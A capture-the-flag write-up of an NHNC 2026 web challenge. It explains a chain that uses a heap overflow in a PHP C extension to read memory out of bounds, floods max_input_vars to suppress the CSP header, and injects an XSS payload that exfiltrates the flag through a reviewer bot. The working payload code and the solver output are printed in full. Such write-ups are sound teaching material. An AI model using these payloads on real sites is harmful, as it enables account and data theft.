



# NHNC 2026 — xdd (Folio Desk)

**Category:** Web  
**Difficulty:** Hard  
**Points:** 497  
**Solves:** 0 (at time of solve)  
**Author:** whale120  
**Solved on:** 2026-07-04  
**Flag:** `NHNC{can_u_imagine_such_a_chain_for_xss_lol}`

## Summary

xdd is a note-taking app ("Folio Desk") backed by a custom PHP C extension that renders "folios." A reviewer bot visits user-provided URLs. The flag lives in a private receipt service on `127.0.0.1:9100`, locked behind CORS and a strict CSP.

The solve chain:

1. **Heap overflow** in `folio_frame()` C extension corrupts the memo length field, causing an OOB read that surfaces raw attacker-controlled data (the `carry` query param) into the page.
2. **`max_input_vars` flood** — 1001 duplicate query params trigger a PHP startup warning that flushes output before `page_headers()` can set the CSP. Result: the response has **no Content-Security-Policy at all**.
3. **XSS** — the OOB-read carry contains a `<script>` that fetches the private receipt and POSTs it to the drop endpoint.
4. **Bot submits** — reviewer visits our crafted URL, JS fires, flag exfiltrated.

This is one of those challenges where you use a heap overflow to bypass a CSP. Normal Tuesday.



## Architecture

```
                    +-----------+
   User  --------→ | :8080     |  Folio Desk (PHP + Apache)
                    | view.php  |  folio_frame() C extension
                    | draft.php |  create notes
                    | drop.php  |  exfil pickup point
                    +-----------+
                         |
   Bot (Firefox) --------+
                         |
                    +-----------+
   (localhost only) | :9100     |  Private Service (Python)
                    | /archive/ |  holds the receipt (FLAG)
                    | receipt   |  CORS: only 127.0.0.1:8080
                    +-----------+
                         |
                    +-----------+
                    | :8081     |  Reviewer (Python)
                    | PoW + bot |  visits user URL in Firefox
                    +-----------+
```

The receipt service enforces CORS — only `Origin: http://127.0.0.1:8080` gets `Access-Control-Allow-Origin`. So we need XSS on the app origin. The CSP makes that "impossible."

## Vulnerability Chain

### 1. The folio C extension heap overflow

The `folio.so` PHP extension provides `folio_frame(name, memo, reserve)`. It's supposed to escape HTML entities in `name` and `memo`, then return them in an array alongside `reserve`.

The bug: when `name` contains many escapable characters (like `&` → `&amp;`), the expanded output overflows the internal buffer. The overflow corrupts the length field of the adjacent `memo` allocation:

```python
V = 0x1000
name = b"&" * 60 + b"P" * 12 + struct.pack('<I', V) + b"\x00" * 4 + b"Q" * 175
memo = "M" * 255
```

The `struct.pack('<I', 0x1000)` lands exactly on `memo.len`, changing it from 255 to 4096. Now when PHP reads `$frame['memo']`, it reads 4096 bytes — far past the actual memo data — and that forward OOB read sweeps over the `$reserve` variable (which holds our raw `carry` query parameter).

The result: our unescaped `carry` string appears verbatim in the HTML output.



### 2. Killing the CSP with `max_input_vars`

Getting raw HTML into the page is useless if the CSP blocks inline scripts. The CSP is set by `page_headers()` on line 31 of `view.php`:

```php
$frame = folio_frame($name, $memo, $reserve);  // line 29
page_headers($nonce);                           // line 31 — sets CSP header
```

The key insight: the container runs PHP with **`display_errors=STDOUT`**, **`output_buffering=0`**, and **`implicit_flush=On`** (the compiled defaults when no `php.ini` overrides them).

PHP's `max_input_vars` defaults to 1000. When a request has more than 1000 input variables, PHP emits a warning **at request startup**, before any user code executes:

```
Warning: PHP Request Startup: Input variables exceeded 1000...
```

With `output_buffering=0` and `implicit_flush=On`, this warning is sent to the client immediately. Once any output is sent, HTTP headers are locked — `header()` calls in `page_headers()` silently fail with "Cannot modify header information — headers already sent."

**The CSP header never makes it into the response.**

The flood is just 1001 duplicate params appended to the URL:

```
/view.php?id=...&carry=...&a&a&a&a&a&a&a&a&a&a&a... (×1001)
```

Using valueless `a` (not `a=1`) keeps the URL compact enough to fit the reviewer's 8192-byte POST body limit.



### 3. The XSS payload

With no CSP, the `carry` parameter (surfaced via the overread) just needs a valid `<script>` tag:

```python
BREAK = "'\"></title></textarea></style></script></noscript>-->"
JS = ("fetch('http://127.0.0.1:9100/archive/receipt').then(r=>r.text())"
      ".then(t=>fetch('/drop.php?slot=SLOT',{method:'POST',body:t}))")
carry = BREAK + "<script>" + JS + "</script>"
```

The `BREAK` prefix escapes any HTML context the overread might land in (attribute, textarea, script, noscript, comment — all terminated). Then the JS:

1. Fetches the private receipt from `127.0.0.1:9100` (CORS allows this origin)
2. POSTs it to `/drop.php` where we can pick it up

### 4. Bot submission and flag exfil

The reviewer bot accepts URLs on the local preview port (8080 inside the container). We craft the full URL with note ID + carry payload + param flood, solve the SHA-256 PoW, and submit:

```
http://127.0.0.1:8080/view.php?id=<note_id>&carry=<xss>&a&a&a...
```

Bot visits → PHP warning flushes → CSP dead → overread surfaces our `<script>` → JS fetches receipt → POSTs to drop → we poll and collect the flag.

## Exploit

[`solve.py`](./solve.py) — full automated solver.

```bash
# Local (docker-compose up -d, mapped to 19080/19081):
python3 solve.py

# Remote instancer:
python3 solve.py <APP_HOST>:<APP_PORT> <REVIEW_HOST>:<REVIEW_PORT>
```

### Successful run

```
[*] note: 1ba4668c8044e55068a0b5335f7c2378
[*] carry len: 202
[*] preflight: CSP=False  <script>@1764  body=5539b
    ctx: b"/style></script></noscript>--><script>fetch('http://127.0.0.1:9100/arc"
[*] bot url len: 2395
[*] PoW solved in 2.4s
[*] reviewer: b'<p>Queued.</p>'
[+] DROP after 3s: b'NHNC{can_u_imagine_such_a_chain_for_xss_lol}'

[FLAG] NHNC{can_u_imagine_such_a_chain_for_xss_lol}
```

## Why The Chain Works

Every layer looks reasonable in isolation:

| Layer | "This is fine" | Reality |
|-------|---------------|---------|
| CSP | nonce-based, `script-src 'nonce-...'` | killed by a PHP startup warning before the header is even set |
| `folio_frame()` | C extension for "safe" HTML escaping | heap overflow when name has many escapable chars |
| `max_input_vars` | DoS protection with a harmless warning | the warning itself becomes the weapon |
| `carry` param | innocent query parameter, never rendered directly | OOB-read pulls it raw into HTML output |
| CORS | only allows `127.0.0.1:8080` | that's exactly where our XSS runs |

None of these is a "textbook vuln." The chain only works because the PHP runtime defaults conspire with the extension's memory corruption and the code ordering in `view.php`. Move `page_headers()` above `folio_frame()` and the CSP survives. Add output buffering and the warning doesn't flush. Fix the heap math and the overread disappears.

Three independent "that'll never happen" assumptions, all wrong at once.

## Closing Note

The flag says it all:

> `NHNC{can_u_imagine_such_a_chain_for_xss_lol}`

Yes. Yes I can. And I typed XDD into it.
